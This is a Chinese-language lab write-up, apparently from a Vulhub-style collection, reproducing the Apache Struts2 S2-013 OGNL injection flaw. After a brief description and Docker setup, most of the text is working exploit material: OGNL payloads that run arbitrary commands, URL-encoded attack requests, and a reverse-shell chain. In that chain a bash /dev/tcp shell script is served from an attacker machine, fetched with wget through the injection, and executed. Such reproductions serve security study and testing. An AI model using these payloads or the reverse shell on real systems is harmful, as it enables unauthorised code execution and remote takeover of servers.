


# Struts2 S2-013 远程代码执行漏洞

## 漏洞描述

Struts2 标签中 `<s:a>` 和 `<s:url>` 都包含一个 includeParams 属性，其值可设置为 none，get 或 all，参考官方其对应意义如下：

1. none - 链接不包含请求的任意参数值（默认）
2. get - 链接只包含 GET 请求中的参数和其值
3. all - 链接包含 GET 和 POST 所有参数和其值

`<s:a>`用来显示一个超链接，当`includeParams=all`的时候，会将本次请求的GET和POST参数都放在URL的GET参数上。在放置参数的过程中会将参数进行OGNL渲染，造成任意命令执行漏洞。

漏洞详情:

- http://struts.apache.org/docs/s2-013.html
- http://struts.apache.org/docs/s2-014.html

## 漏洞影响

影响版本: 2.0.0 - 2.3.14.1

## 环境搭建

Vulhub执行以下命令启动s2-013测试环境：

```
docker-compose build
docker-compose up -d
```

访问`http://your-vps-ip:8080/index.jsp`即可进入上传表单页面。

## 漏洞复现

任意命令执行POC：

```
${(#_memberAccess["allowStaticMethodAccess"]=true,#a=@java.lang.Runtime@getRuntime().exec('id').getInputStream(),#b=new java.io.InputStreamReader(#a),#c=new java.io.BufferedReader(#b),#d=new char[50000],#c.read(#d),#out=@org.apache.struts2.ServletActionContext@getResponse().getWriter(),#out.println(#d),#out.close())}

// 或

${#_memberAccess["allowStaticMethodAccess"]=true,@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec('id').getInputStream())}
```

例如：

```
http://your-vps-ip:8080/link.action?a=%24%7B%23_memberAccess%5B%22allowStaticMethodAccess%22%5D%3Dtrue%2C%23a%3D%40java.lang.Runtime%40getRuntime().exec('id').getInputStream()%2C%23b%3Dnew%20java.io.InputStreamReader(%23a)%2C%23c%3Dnew%20java.io.BufferedReader(%23b)%2C%23d%3Dnew%20char%5B50000%5D%2C%23c.read(%23d)%2C%23out%3D%40org.apache.struts2.ServletActionContext%40getResponse().getWriter()%2C%23out.println('dbapp%3D'%2Bnew%20java.lang.String(%23d))%2C%23out.close()%7D
```

成功执行命令`id`：



### 反弹shell

编写shell脚本并启动http服务器：

```
echo "bash -i >& /dev/tcp/192.168.174.128/9999 0>&1" > shell.sh
python3环境下：python -m http.server 80
```

上传shell.sh文件的命令为：

```
wget 192.168.174.128/shell.sh
```

上传shell.sh文件的Payload为：

```
GET /link.action?a=%24%7B%23_memberAccess%5B%22allowStaticMethodAccess%22%5D%3Dtrue%2C%23a%3D%40java.lang.Runtime%40getRuntime().exec(%27wget%20192.168.174.128/shell.sh%27).getInputStream()%2C%23b%3Dnew%20java.io.InputStreamReader(%23a)%2C%23c%3Dnew%20java.io.BufferedReader(%23b)%2C%23d%3Dnew%20char%5B50000%5D%2C%23c.read(%23d)%2C%23out%3D%40org.apache.struts2.ServletActionContext%40getResponse().getWriter()%2C%23out.println(%27dbapp%3D%27%2Bnew%20java.lang.String(%23d))%2C%23out.close()%7D HTTP/1.1
```

执行shell.sh文件的命令为：

```
bash /usr/local/tomcat/shell.sh
```

执行shell.sh文件的Payload为：

```
GET /link.action?a=%24%7B%23_memberAccess%5B%22allowStaticMethodAccess%22%5D%3Dtrue%2C%23a%3D%40java.lang.Runtime%40getRuntime().exec(%27bash%20/usr/local/tomcat/shell.sh%27).getInputStream()%2C%23b%3Dnew%20java.io.InputStreamReader(%23a)%2C%23c%3Dnew%20java.io.BufferedReader(%23b)%2C%23d%3Dnew%20char%5B50000%5D%2C%23c.read(%23d)%2C%23out%3D%40org.apache.struts2.ServletActionContext%40getResponse().getWriter()%2C%23out.println(%27dbapp%3D%27%2Bnew%20java.lang.String(%23d))%2C%23out.close()%7D HTTP/1.1
```

成功接收反弹shell：

